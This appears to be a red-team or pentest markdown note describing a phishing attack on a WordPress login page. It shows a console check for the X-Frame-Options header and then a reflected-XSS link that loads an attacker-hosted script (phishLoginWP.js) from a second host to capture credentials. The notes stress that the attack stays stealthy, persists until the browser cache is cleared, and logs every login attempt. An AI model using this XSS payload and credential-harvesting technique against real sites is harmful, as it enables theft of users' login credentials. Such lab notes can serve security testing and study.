

# [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [check if target login page iframe-able] navigate to target application in web browser

http://192.168.5.10

2. [check if target login page iframe-able] open developer console and execute following code

```
const url = "http://192.168.5.10/wp-login.php";
const req = new XMLHttpRequest();
req.open("GET", url, false);
req.send(null);
console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
```

* **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginWP.js></script>
```

4. victim user authenticates

*(attacker obtains credentials)*

## Screenshots


